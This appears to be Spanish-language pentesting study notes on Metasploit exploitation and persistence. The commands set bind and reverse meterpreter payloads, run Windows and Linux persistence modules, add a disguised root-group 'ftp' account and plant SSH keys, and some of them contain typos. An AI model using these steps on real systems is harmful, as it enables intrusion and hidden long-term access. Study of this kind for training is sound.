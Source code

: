  - Explotación
 >Abremos bind_shell y la víctima abre el Peuerto esperando conexiones

```bash
use elexploit que sea en ese puerto 80
set payload /windows/meterpreter/bind_tcp
set rhosts IPVictim2
set lport otrodifeente al del priemr pivoting
```
### Persistencia - Backdoors

>Configuraremos un módulo para que cada tanto tiempo, nos otorge una reverse shell siempre que estemos escuchando
- LLevar una session a **background**
```bash
background
```
- Ver módulos de persistencia
```bash
search persistence platform:"windows"
use modulo
session
set session 1
```

- cuándo ejecutamos con **run**, crea un servcio nuevo
- Creamos listener (**imaginando que nos hemos slaido de metasploit**)
```bash
msfdb run
use /multi/handler
set payload windows/meterpreter/reverse_tcp
# La sesión de persistencia tratará de conectar cada tanto (lo que configures con set)
run
```

#### Otra forma de Persistencia
>Podemos crear un user llamándolo como un proceso para que no nos calen (**uno que no se ha instalado **)

- Una vez ganado acceso y privilegios
```bash
useradd -m ftp -s /bin/bash
passwd ftp
# AÑadimos ftp al grupo root
groups root
usermod -aG root ftp
# Darle un id al grupo que se ve en /etc/passwd 
usermod -u 15
groups ftp
```

- Usamos módulo que queramos
```bash
search apt_package_manage_persistence
search cron_persistence
search service_persistence
```
- Después de crear la cuenta ftp, generamos el par de claves pera generar persistencia
```bash
search post/linux/manage/sshkey_persistence
set CHKROOTKIT /bin/chkrootkit
run
# copiamos clave privada que nos crea
# en Terminal local
nano ssh_key
chmod ssh_key
ssh -i ssh_key root@ip

```